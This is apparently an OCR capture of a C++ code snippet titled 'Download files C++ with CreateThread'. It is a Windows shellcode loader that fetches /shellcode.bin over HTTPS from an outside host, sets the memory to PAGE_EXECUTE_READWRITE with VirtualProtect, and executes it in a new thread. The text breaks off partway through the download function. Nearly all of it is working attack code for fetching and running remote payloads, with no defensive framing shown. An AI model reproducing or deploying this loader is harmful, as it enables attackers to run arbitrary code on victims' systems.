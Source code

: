 Download files C++ with CreateThread:
```
#include <Windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>

#pragma comment(lib, "winhttp.lib")

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename);

int main()
{
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

    //get point to buffer
    LPVOID ptr = &shellcode[0];

    //set memory to RWX
    DWORD oldProtect = 0;
    VirtualProtect(ptr, shellcode.size(), PAGE_EXECUTE_READWRITE, &oldProtect);

    //execute 
    DWORD threadId = 0;
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ptr, NULL, 0, &threadId);

    //close handle
    CloseHandle(hThread);

    //stop the program from closing
    std::cout << "Shellcode is running, press key to exit" << std::endl;
    _getch();
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,    // proxy aware
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        WINHTTP_FLAG_SECURE_DEFAULTS);          // enable ssl

    // create session for target
    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        INTERNET_DEFAULT_HTTPS_PORT,            // port 443
        0);

    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        WINHTTP_FLAG_SECURE);                   // ssl

    // send the request
    WinHttpSendRequest(
```